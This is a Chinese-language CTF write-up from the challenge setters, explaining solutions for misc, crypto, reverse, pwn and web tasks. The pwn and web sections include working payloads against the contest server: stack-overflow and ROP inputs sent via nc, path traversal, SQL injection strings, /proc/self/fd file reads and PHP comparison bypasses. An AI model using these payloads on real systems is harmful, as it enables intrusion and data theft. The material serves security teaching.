

感谢一百多位选手捧场。以下是出题人写的 writeup.
Misc
《Yankee with no brim》出题人是 Merrg1n，《大司马与千层饼》出题人是 Init_new_world，其余题目出题人是阮行止。
打工是不可能打工的
StegSolve 逐帧浏览，flag藏在最后一帧。
zip-0
爆破即可。Windows下可以使用ARCHPR，Linux下可以使用yazc，据说很快。
zip-1
伪加密。可以用十六进制编辑器手动改，也可以用工具 ZipCenOp.jar
据说 7zip 可以忽略伪加密直接看 flag。
zsh的民间题解：
直接二进制打开也可以
2I)...).......fl
ag.txtflag{fakE_
encrypti0n_is_so
_easy_to_so1ve}P
K..?........(.P.
樱花
信息以字符串的形式直接嵌入到文件中。
➜ strings sakura.jpg | grep flag
flag{y0u_have_find_this_STRING_in_photo}
隐写
不难看出 red plane 0 有东西：
提取出来就是flag.
真正的互联网
访问它就行了。
如果您没法访问它，那您显然得想办法访问它。
zip-2
明文攻击。使用工具ARCHPR.
Yankee with no brim
jpg后面藏了个PNG 用010 editor或者binwalk都能提取出来.
然后PNG的ihdr chunk的CRC错误，写个脚本爆破一下得到正确高度
大司马与千层饼
出题人的题解：
ResourceHacker可得到一个凯撒加密网址，打开后一个二维码补上定位点直接扫即可得到flag.
出题人补几个图：
第一步：使用ResourceHacker,可以看到CAE3!ENCODE的提示，表示是凯撒(caesar)3位

第二步：百度凯撒密码解密，得到网址

第三步：补好码点，直接扫，得到flag

注：题面说了“你可能在第五层，而我在第一层”表示flag其实不可能层层嵌套，而是浮在表面的，一步就没了；
“第五层”部分民间题解已经解释了，就不详细说了；那个“微小的颜色变化”是我使用了低颜色数(8位)转存了一张高颜色数(24位)的图片产生的，三张图的颜色数不是完全一样；
彩蛋：这个程序是我以前对UOJ207的一个实现，同时做了一点轻微的混淆，你可以用UOJ207的数据跑一下，应该能获得正确的结果。
出题想法来自近期某场CTF比赛的一道Misc签到题，并不是我原创。三天的比赛直到最后我也没做出那道题。
Ciel的民间题解：
strings 发现 You see the string,but it is not so easy...but it's baby! ，binwalk 发现有⼀个
7z 包，拆出来解压得到⼀个 GIF 。对 GIF strings 发现⼀个 Fak3{Se3_3x1f_bu7_1t5_n0t_f1ag} 。拆帧发现只有前三帧和其他的不同，其二是没有 3 个码点的二维码，补全并扫描得到Fak3{G1FSPL1t_1s_fuun_bU7_n0t_th1s+prob} 和 Fak3{B1nwa1k_1s_fuun_bU7_n0t_th1s+prob} 。进⼀步观察发现 frame 3 的图形上有微小的颜色变化，尝试直接 LSB 失败。将图片读入处理得到非白色的颜色只有 8 种，然而没有什么进⼀步的思路了。
赛后得知，直接对原 exe 文件 Resource Hacker 即可找到⼀个恺撒移位的网址，打开之后是二维码，补上 3 个码点直接扫就完事了。
Crypto
出题人阮行止。
不神必的 base64
base64 解码即可。
神秘代码
可以自己写，也可以用 libnum 或 Crypto 现成的函数。
import libnum
libnum.n2s(10786438895798227883161514210116248549506979726714263760481486728317)
rail fence
用 CyberChef 瞎试试就出来了。
王 室 复 辟
爆破 Caesar 即可。
如果懒得写脚本，就用 CyberChef 的 ROT13，也可以用来爆破Caesar。
点横点横横
用 CyberChef，from Morse Code.
单表替换
用 quipqiup.com
当然了，您也可以猜出这是葛底斯堡演说。
CH₃COOH
Vigenere 密码。随便找个在线工具爆破。
e.g. https://www.guballa.de/vigenere-solver
三天之内
爆破时间。
from Crypto.Cipher import AES
import time, itertools, base64
from hashlib import md5
def decode(ts, s):
key = md5(str(ts).encode()).digest()
aes = AES.new(key, AES.MODE_ECB)
outData = aes.decrypt(base64.b64decode(s))
print(time.asctime(time.gmtime(ts)))
if b'flag' in outData:
print(outData)
return True
return False
def brute(beg, enc):
for ts in itertools.count(beg):
if decode(ts, enc):
return
brute(1587880000, 'THM3FOB7PxOgVoI1fGsqQDJLGu41mL9nKCNeMvXzB+l8MFirir0C19YRS/ruDILq')
神必 base64
带密码表的base64，相当于在常规base64之后做了一次单表替换。
推出替换表就行了。
import base64
msg = base64.b64encode(open('plain.txt', 'rb').read())
msg = msg.decode()[:-10]
cipher = open('cipher.txt').read()
dic = {}
for a, b in zip(msg, cipher[:len(msg)]):
print(f'{a} -> {b}')
dic[b] = a
res = ''.join([dic[x] if x in dic else x for x in cipher])
res = base64.b64decode(res.encode()).decode()
print(res)
RSA-0
直接解码。
RSA-1
注意到欧拉函数是积性函数，于是 $\varphi(n)$ 可求。
Reverse
出题人 xhy.
basicre1
异或加密，密钥是i ^ 0x55
ct = [33, 60, 102, 37, 14, 97, 32, 13, 41, 52,
108, 1, 59, 57, 40, 107, 38, 27, 119, 32,
30, 50, 112, 52, 126, 62, 60, 125]
print("flag{{{}}}".format(''.join(map(lambda i: chr(ct[i] ^ 0x55 ^ i), range(len(ct))))))
flag{th1s_1s_th3_bas1c_0f_r3v3rs3}
basicre2
考察大小端法转化，可以用python的struct模块
import struct
target = [1211396208,2034593380,1765043792,878930775,
1769236560,2037672047,1851749236,1920295796]
print("flag{{{}}}".format(
b''.join(map(lambda n: struct.pack(">I", n), target)).decode('ascii')))
flag{H4ppyEndi4nP4ckWithPython_struct}
basicre3
XTEA算法ECB模式。建议学习TEA，XTEA和XXTEA算法，熟练识别这几种分组加密算法的形式。
/**
* Get correct input to make program print Congratulations!
*/
#include <stdint.h>
#include <stdio.h>
void xtea_decrypt(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
unsigned int i;
uint32_t v0=v[0], v1=v[1], delta=0x9E3779B9, sum=delta*num_rounds;
for (i=0; i < num_rounds; i++) {
v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);
sum -= delta;
v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
}
v[0]=v0; v[1]=v1;
}
int GetPassword(void) {
const uint32_t key[] = {1634494796, 1818840163, 1766613857, 6513004};
uint8_t target[] = {0x6f, 0x7d, 0xcf, 0x96, 0x9d, 0x31, 0x1f, 0x9b,
0xa0, 0x82, 0x9e, 0x2a, 0x73, 0xe6, 0xde, 0xb3,
0xab, 0x99, 0xbb, 0x88, 0x29, 0xa6, 0xa3, 0xcd};
for (int i = 0; i < sizeof(target); i += 8) {
xtea_decrypt(32, &target[i], key);
}
printf("flag{%s}\n", target);
}
int main(void) {
GetPassword();
return 0;
}
flag{hAve_fuN_ovo_WIth_XTEA}
babyre
考察RC4算法，这题在.init段挖了一个坑，.init段有一段对目标数组的异或解密代码。如下：
void init(void) __attribute__((constructor));
void init(void) {
for (int i = 0; i < sizeof(target); i++) {
target[i] ^= 0x37;
}
}
下面是解密代码
#include <stdint.h>
#include <stdio.h>
void ksa(unsigned char *state, unsigned char *key, int keylen) {
int i, j = 0, t;
for (i = 0; i < 256; ++i)
state[i] = i;
for (i = 0; i < 256; ++i) {
j = (j + state[i] + key[i % keylen]) % 256;
t = state[i];
state[i] = state[j];
state[j] = t;
}
}
void rc4(unsigned char *state, unsigned char *data, int len) {
int i = 0, j = 0, x, t;
for (x = 0; x < len; ++x) {
i = (i + 1) % 256;
j = (j + state[i]) % 256;
t = state[i];
state[i] = state[j];
state[j] = t;
data[x] ^= state[(state[i] + state[j]) % 256];
}
}
int main(void) {
// char *input = GetInput();
unsigned char target[] ="o\\Pp\xd7QS\xbdW\x9d\xa7\xa7$\xb1\x91L\xd3Lvu\x02\xbb(U\x84";
for (int i = 0; i < strlen(target); ++i) {
target[i] ^= 0x37;
}
unsigned char sbox[256];
ksa(sbox, "\\(*OvO*)/", 9);
rc4(sbox, target, strlen(target));
printf("flag{%s}\n", target);
}
flag{RC4_kn0ck_Knock_w1tH_1n1t}
hundred
百元一次方程组。函数太大不能反编译，可以通过修改$IDA_HOME/cfg/hexrays.cfg这个配置文件将MAX_FUNCSIZE=64 改大来解决。也可以尝试从汇编代码中解析出方程组进行求解，还可以通过angr进行求解。
这里使用SMT求解器z3求解方程组。
源码：https://file.hitctf.cn/51happy/solve.py
Pwn
除《石头剪刀布》之外出题人为 wxk，《石头剪刀布》出题人为阮行止。
1. 坤坤の地址
在linux下直接执行 nc 命令拿到 flag
➜ games nc 47.94.239.235 4001
welcome to Lilac@HIT
Here is kunkun's address:
flag{zonghelou_714}
2. 坤坤の唱
首先通过 hint 可知服务器上目录结构如下
.
├── dir
│ ├── jay
│ │ └── qilixiang
│ └── pwn // 可执行文件
└── flag
通过分析题目文件可以得知需要输入两个字符串, 两者拼接得到路径. 程序会打开该路径的文件并打印文件的内容. 但是两个字符串中不能包含 "../"
我们可以通过分别输入 ".." 和 "/flag" 实现拿到flag
➜ games nc 47.94.239.235 4002
input the singer's name:
..
input the song's name:
/flag
here is the lyric:
flag{w0w_you_successfully_escape_the_r3strict}
3. 坤坤の篮球
这题出题失误了. 导致很容易随便输点东西就拿到flag...本来想考的是整型溢出.
乍一看题目的逻辑就是猜对100次随机数就拿到flag. 随机数还会把端续打乱之后打印出来.
但是问题在于每猜一次程序都会sleep 1秒, 而程序执行 60秒后会被终止. 所以这种方法拿不到flag.
但是通过故意猜错可以使得分数减为负数, 而比较的时候是和无符号数比较的. 所以存在整形溢出漏洞. 拿到flag. 结果不少人随便试试就把flag试出来了... 我的锅...
zsh的民间题解：
我好像就是直接根据那个 hint 运算的。。代码是
from pwn import *
import os
conn = remote('47.94.239.235',4003)
while(1):
l = ""
# l = conn.recvline_contains("some hint : ")
while(1):
l = conn.recvline().decode("utf-8")
print(l)
if l.find("some hint : ") != -1:
break
# print(l)
x = int(l.split(" : ")[1])
print("%x" % x)
os.system("echo " + str(x) + "| ./a.out > output")
f = open("output", "r")
t = f.read()
f.close()
conn.sendline(t)
# hint : RAND_MAX is 2147483647
# give you some hint : -1897606077
# guess the target:
等一会能出来flag...
4. 坤坤のrap
使用IDA 可以看到连续声明了 256 字节的 buffer 然后是⼀个 int 。存在栈溢出漏洞. 随便输⼊点啥，⽐ 256 字节⻓⼀点，把 int 覆盖成非零的值就可以拿到flag了
➜ games python -c "print('a'*280)" | nc 47.94.239.235 4004
请开始你的表演:
ncongrats, here is the flag
flag{stack_0verflow_is_annoying!!}
tql!!!
请开始你的表演:
你就是逊啦
5. 坤坤の舞
同样存在栈溢出漏洞. 不过这次需要自己覆盖返回地址. 注意到有一个 get_flag 函数. 将返回地址覆盖到这个 函数就可以拿到 flag 了
首先拿到 get_flag 函数的地址
➜ 5_dance readelf -s ./pwn | grep get_flag
57: 0000000000400728 111 FUNC GLOBAL DEFAULT 14 get_flag
然后用地址作为填充, 覆盖返回地址
➜ 5_dance python -c "print('\x28\x07\x40\x00\x00\x00\x00\x00'*40)" | nc 47.94.239.235 4005
请开始你的表演:
ncongrats, here is the flag
flag{It_1s_amazing_to_overwrite_return_address}
tql!!!
6. 坤坤の绝地反击
和上一题一样, 本题同样存栈溢出漏洞和 get_flag 函数. 但是本题的get_flag 函数需要传入参数了.
void get_flag(char *path){
if (!validate(path))
die("invalid path");
// puts("ncongrats, here is the flag");
int fd = open(path, 0);
char buf[0x100];
int len = read(fd, buf, 0x100);
write(1, buf, len);
puts("\nbye bye");
exit(0);
}
所以我们在通过返回地址跳到 get_flag 函数之前需要先设置好参数.
amd64 linux下第一个参数是通过 rdi 寄存器传递的.
通过 ida 分析可以发现程序中存在 "./flag" 字符串
.rodata:000000000040093E aFlag db './flag',0
因此我们要做的就是把 rdi 寄存器的值设置为 0x000000000040093E. 这儿就要用到 ROP 技术了. 具体原理网上很多博客了. 这儿不再赘述.
首先用 ropper 找到 gadget
➜ 6_final ropper -f ./pwn --search "pop rdi; ret"
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi; ret
[INFO] File: ./pwn
0x0000000000400903: pop rdi; ret;
然后构造 payload
➜ 6_final python -c "from struct import pack;print('a'*0x118+pack('<Q', 0x400903)+pack('<Q', 0x40093E)+pack('<Q', 0x400798))" | nc 47.94.239.235 4006
请开始你的表演:
flag{ROP_is_really_rea11y_useful!!}
bye bye
石头剪刀布
注意到采用的种子只可能是 0,1,2,...9，那我们猜是 0. 本地运行程序，以 0 为种子生成 100 个数，然后赢这100次。
接下来开始不停地找服务器玩游戏，就出我们刚刚决策好的序列。十几秒之后你就拿到 flag 了。
[TODO] : exp
Web
《F12》和《i18n》出题人为阮行止，其余为惊蛰。
F12
按下F12，切到 Network 窗口，刷新页面，从请求头得知 flag.
i18n
一个很明显的任意文件读。
payload：?lang=qwqQAQwww&language_file=/flag
ezsql
最基础的sql注入，并且给了sql语句。注入点是用户名，在用户名后面用注释符号截断即可。
当然，你要是使用and和or的话，你会发现他们被过滤了。
payload：
admin' #
admin' --
zsh 的民间题解：
xxx' || true --
ezsql again
这个题主要考的是一个设计缺陷的问题。
注释里告诉你有源码的备份文件。
sql查询操作使用了预编译，这里是没有办法进行注入的。
审计源码，你会发现从$_POST中获取的参数，没有考虑过键值是否存在的问题，如果不存在，得到的结果会是NULL。所以你只需要随便输入一个数据库中不存在的用户名，使查询结果为NULL，同时，登陆请求中不传入password，即可通过验证。
此外，预编译或者说参数化查询，真的可以防御所有的SQL注入么？
where is flag？
审计源码，你会发现flag一开始就被删了，那么在哪还能找到他呢？（回收站）
如果您熟悉Linux，你会想起来这里还有一个文件描述符。
关于文件描述符的介绍可以参考维基百科：https://zh.wikipedia.org/wiki/%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6
此外，您还需要了解下procfs，详细请参考维基百科：https://zh.wikipedia.org/wiki/Procfs
通过任意文件读，直接读取当前进程下的文件描述符即可获得flag。
payload：
file=/proc/self/fd/3
ez_bypass
php代码审计，主要是三关。
Step 1：
你需要找到两个md5值相同，但是本身却不相同的值，这显然是相当难找的。
php中的两个坑可以实现这一点。
- 在进行比较运算时，如果遇到了
0e\d+这种字符串，就会将这种字符串解析为科学计数法。 - md5（）函数的描述是
string md5 ( string $str [, bool $raw_output = false ] )，md5()中的需要是一个 string 类型的参数。但是当你传递一个 array 时，md5()不会报错，只是会无法正确地求出 array 的 md5 值，这样就会导致任意 2 个 array 的 md5 值都会相等。
所以，找到两个md5后，值满足 0e\d+ 模式的串或者直接传入两个不同的数组即可。
Step 2：
需要一个不是数字，但是值等于20200501的pw。利用非严格比较字符串和数字时，自动把字符串转换为数字的特性，即可绕过。
pw=20200501any letter
Step 3：
要求json中的password键的值为shouhukunkun，但是password是通过前面的pw设置的。
利用json_decode遇到重复键时，取最后一个的特性，注入json，即可绕过。
pw=20200501", "password" : "shouhukunkun
是什么蒙蔽了你的双眼
GET参数jpg三次base64解码后，得到flag.jpg。知道了编码规则以后，可以尝试读一下其他文件。
读取index.php，可以得到源码，审计可以发现是一个简单的过滤逻辑，只能读取当前目录下文件名不含有config和特殊符号的文件。
注释里给了一篇博客链接。
/*
* https://www.cnblogs.com/embedded-linux/p/12638906.html
* Date: 2016-12-20 23:26
*/
看完博客，您肯定觉得没有什么锤子用，但是您仔细看的话，您会发现时间对不上。
找到对应时间的博客，是这篇
vim中.swp文件处理
https://www.cnblogs.com/embedded-linux/p/6205004.html
猜测存在vim的缓存文件，读取.index.php.swp，可以知道flag在f1lllaggg!lilac.php。
通过之前审计的过滤规则，可以知道会将config替换为!，从而可以读取f1lllaggg!lilac.php的源码。
审计下，存在变量覆盖。因为$k文件不存在，所以直接传入一个空的$t，由于弱类型比较，"" == false //true，即可获得flag。此外，也可以覆盖$k，读取远程目录的文件。
如果您嫌上述过程过于麻烦，不妨看看最开始的那张图，flag就在图上。